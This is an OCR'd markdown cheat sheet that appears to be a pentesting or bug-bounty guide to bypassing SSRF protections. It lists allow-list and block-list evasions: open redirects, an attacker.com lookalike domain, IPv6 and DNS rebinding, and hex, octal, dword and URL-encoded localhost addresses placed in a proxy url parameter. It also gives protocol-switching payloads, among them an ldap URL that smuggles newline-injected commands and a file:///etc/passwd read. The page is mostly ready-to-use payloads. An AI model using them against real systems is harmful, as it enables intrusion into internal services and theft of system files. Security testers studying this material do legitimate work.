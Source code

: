 **Indicator:** Significant time differences between requests to different ports may indicate exploitable SSRF.

## Bypassing SSRF Protections

### Circumvent Allow Lists
[Omise SSRF leveraging open redirects](https://hackerone.com/reports/508459)
- Find Open Redirect vulnerability on allowlisted URL and pass `redirect_to` parameter to internal server/IP
- Check implementation - regex-based allow lists might be improperly configured

### Circumvent Block Lists
1. **Redirect through controlled server**  
   If a loosely-scoped regex pattern is used for validation, we can bypass it by matching it.
   > Eg: https://assets.example.com.attacker.com/
   [Leveraging redir](https://www.leviathansecurity.com/blog/bypassing-ssrf-filters-using-r3dir)
   Make server request your URL that redirects to blocked address.
   Through DNS rebinding

2. **IPv6 addresses**  
   Protection might not cover IPv6 (e.g., `::1` = localhost, `fc00::` = private network)

3. **DNS tricks**  
   - A records (IPv4)  
   - AAAA records (IPv6)  
   - nslookup rasheedstarlet.com -type=AAAA
   
### Switching Out the Encoding
4. **Encoding methods** (may bypass blocklists):
- Hex: `https://0x7f.0x0.0x0.0x1`
- Octal: `https://0177.0.0.01`
- Dword: `https://2130706433`
- URL encoding: `https://%6c%6f%63%61%6c%68%6f%73%74`

**Tip:** When stuck, consider how you'd implement protection and look for gaps.

These encoding methods don’t change how a server interprets the location of the address, 
but they might allow the input to slip under the radar of a blocklist if it bans only 
addresses that are encoded a certain way.
hex encoding, octal encoding, dword encoding, URL encoding, and mixed encoding.
hex eg https://public.example.com/proxy?url=https://0x7f.0x0.0x0.0x1
oct eg https://public.example.com/proxy?url=https://0177.0.0.01
dword eg https://public.example.com/proxy?url=https://2130706433
enc eg https://public.example.com/proxy?url=https://%6c%6f%63%61%6c%68%6f%73%74

This is just a small portion of bypasses you can try. 
You can use many more creative ways to defeat protection and achieve SSRF. 
When you can’t find a bypass that works, switch your perspective by asking yourself, 
how would I or ChatGPT implement a protection mechanism for this feature? 
Design what you think the protection logic would look like.

## Switching Protocols 
LDAP: url=ldap://localhost:11211/%0astats%0aquit.
TFTP: url=tftp://generic.com:12346/TESTUDPPACKET
SFTP: url=sftp://generic.com:11111/
dict: dict://<generic_user>;<auth>@<generic_host>:<port>/d:<word>:<database>:<n>
file: file:///etc/passwd
[Gopher:](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html#gopher)
